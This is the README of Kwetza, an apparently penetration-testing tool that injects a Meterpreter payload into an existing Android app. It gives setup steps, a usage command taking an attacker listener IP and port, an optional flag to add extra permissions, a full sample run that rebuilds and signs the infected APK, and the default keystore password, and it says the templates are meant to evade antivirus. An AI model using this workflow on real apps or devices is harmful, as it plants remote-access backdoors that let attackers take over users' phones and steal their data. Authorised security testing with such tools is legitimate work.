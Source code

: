 #Introduction
By Chris Le Roy (@bromwpnie) chris@sensepost.com

Kwetza is a tool that allows you to infect an existing Android application with a Meterpreter payload.

#What does it do?
Kwetza infects an existing Android application with either custom or default payload templates to avoid detection by antivirus. Kwetza allows you to infect Android applications using the target application's default permissions or inject additional permissons to gain additional functionality.

#Getting the code

Firstly get the code:
```
git clone https://github.com/sensepost/kwetza.git
```

Kwetza is written in Python and requires BeautfiulSoup which can be installed using Pip:
```
pip install beautifulsoup4
```
Kwetza requires Apktool to be install and accessible via your PATH. This can be setup using the install instructions located here: https://ibotpeaches.github.io/Apktool/install

#Usage

python kwetza.py nameOfTheApkToInfect.apk LHOST LPORT yes/no

* nameOfTheApkToInfect.apk =name of the APK you wish to infect.
* LHOST =IP of your listener.
* LPORT =Port of your listener.
* yes =include "yes" to inject additional evil perms into the app, "no" to utilize the default permissions of the app.

```
python kwetza.py hackme.apk 10.42.0.118 4444 yes
[+] MMMMMM KWETZA
[*] DECOMPILING TARGET APK
[+] ENDPOINT IP: 10.42.0.118
[+] ENDPOINT PORT: 4444
[+] APKTOOL DECOMPILED SUCCESS
[*] BYTING COMMS...
[*] ANALYZING ANDROID MANIFEST...
[+] TARGET ACTIVITY: com.foo.moo.gui.MainActivity
[*] INJECTION INTO APK
[+] CHECKING IF ADDITIONAL PERMS TO BE ADDED
[*] INJECTION OF CRAZY PERMS TO BE DONE!
[+] TIME TO BUILD INFECTED APK
[*] EXECUTING APKTOOL BUILD COMMAND
[+] BUILD RESULT
############################################
I: Using APktool 2.2.0
I: Checking whether source shas changed...
I: Smaling smali folder into classes.dex
I: Checking whether resources has changed...
I: Building resources...
I: Copying libs ...(/lib)
I: Building apk file...
I: Copying unknown files/dir...
###########################################
[*] EXECUTING JARSIGNER COMMAND...
Enter Passphrase for keystore: password
[+] JARSIGNER RESULT
###########################################
jar signed.

###########################################

[+] L00t located at hackme/dist/hackme.apk
```


#Information

Kwetza is has been developed to work with Python 2. Kwetza by default will use the template and keystore located in the folder "payload" to inject and sign the infected apk. If you would like to sign the
infected application with your own certificate, generate a new keystore and place it in the "payload" folder and rename to the existing keystore or change the 
reference in the kwetza.py. The same can be done for payload templates. The password for the default keystore is, well, "password".

#License

Kwetza is licensed under a Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International License (http://creativecommons.org/licenses/by-nc-sa/4.0) Permissions beyond the scope of this license may be available at http://sensepost.com/contact.
